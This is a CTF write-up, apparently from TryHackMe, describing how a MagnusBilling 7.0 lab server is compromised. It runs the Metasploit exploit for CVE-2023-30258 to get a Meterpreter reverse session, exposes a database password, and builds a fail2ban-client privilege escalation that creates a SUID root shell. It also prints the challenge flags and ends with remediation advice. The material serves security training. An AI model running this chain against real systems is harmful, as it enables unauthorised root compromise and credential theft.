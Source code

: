 # MagnusBilling 7.0 CTF Write-up

## Executive Summary
This report documents the exploitation of a MagnusBilling v7.0 server during a Capture The Flag (CTF) challenge. A critical unauthenticated RCE vulnerability (CVE-2023-30258) was used to gain a foothold on the server, followed by a privilege escalation leveraging misconfigured sudo permissions on `fail2ban-client`.

---

### Target Information

- **Target IP**: 10.10.19.151  
- **Platform**: Linux  
- **Web Application**: MagnusBilling v7.0  
- **Vulnerabilities Exploited**:  
  - CVE-2023-30258 (Unauthenticated Remote Code Execution)  
  - Misconfigured Fail2Ban (Local Privilege Escalation)  
  - Hardcoded database credentials

---

### Phase 1: Initial Compromise

#### Network Reconnaissance
```bash
nmap -sV -sC 10.10.19.151
```

Discovered HTTP service on port 80 running MagnusBilling.

#### Vulnerability Research
Identified public exploit for unauthenticated RCE:

•	Rapid7 Module: exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

A Metasploit module is available:
```
exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

#### Exploitation
```bash
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf6 exploit() > set RHOSTS 10.10.19.151
msf6 exploit() > set LHOST 10.9.3.170
msf6 exploit() > set TARGET 0
msf6 exploit() > exploit
```
**Result**: Meterpreter session obtained as user `asterisk`.

---

### Phase 2: Post-Exploitation

### User Flag
```bash
meterpreter > cat /home/magnus/user.txt
```
**User Flag**: `THM{4a6831d5f124b25eefb1e92e0f0da4ca}`

### Credential Discovery

Found credentials in `/etc/asterisk/res_config_mysql.conf`:
```
dbhost = 127.0.0.1  
dbname = mbilling  
dbuser = mbillingUser  
dbpass = BLOGYwvtJkI7uaX5
```

---

### ⚙️ Privilege Escalation

#### 🔍 Check sudo permissions:
```bash
sudo -l
```
Output:
```
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

#### 🚀 Local Privilege Escalation with `fail2ban-client`

**1. Copy Fail2Ban config:**
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/
```

**2. Create payload script:**
```bash
cat > /tmp/script <<EOF
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
```

**3. Custom action config:**
```bash
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<EOF
[Definition]
actionstart = /tmp/script
EOF
```

**4. Create custom jail:**
```bash
cat >> /tmp/fail2ban/jail.local <<EOF
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
```

**5. Restart Fail2Ban with custom config:**
```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

**6. Run the SUID shell:**
```bash
/tmp/bash -p
```

---

### 🏁 Root Flag
```bash
cat /root/root.txt
```
**Flag**: `THM{33ad5b530e71a172648f424ec23fae60}`

---

## 📊 Attack Flow (Graph)

```mermaid
graph TD
    A[Network Scan] --> B[Identify MagnusBilling]
    B --> C[Exploit CVE-2023-30258]
    C --> D[Meterpreter as asterisk]
    D --> E[Discover Sudo Privileges]
    E --> F[Exploit Fail2Ban Client]
    F --> G[Root Access]
```

---

## 🛑 Critical Findings

| Vulnerability                         | Risk      | Impact                  |
|--------------------------------------|-----------|--------------------------|
| CVE-2023-30258 (Unauthenticated RCE) | Critical  | Full system compromise  |
| Fail2Ban misconfiguration            | High      | Local privilege escalation to root |
| Hardcoded DB credentials             | Medium    | Potential data theft or DB tampering |

---

## ✅ Remediation Recommendations

### 🔧 Immediate Actions
- Patch MagnusBilling to the latest version.
- Revoke NOPASSWD sudo privileges for `fail2ban-client`.
- Rotate all credentials found in configuration files.

### 🧰 Long-Term Improvements
- Enforce least privilege principle across all services.
- Perform regular vulnerability scans and patch assessments.
- Apply application allowlisting and endpoint protection.

### 🔐 Defensive Measures
- Restrict remote access to admin interfaces.
- Monitor sudo activity and critical file access logs.
- Deploy a host-based intrusion detection system (HIDS).

---

## 📎 Appendices

### 📚 Technical References
- [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)
- [Fail2Ban Local Privilege Escalation](https://juggernaut-sec.com/fail2ban-lpe/)

---

## 🗓️ Timeline
- **Discovery**: 2025-03-25  
- **Exploitation**: 2025-03-25  
- **Report Generated**: 2025-03-26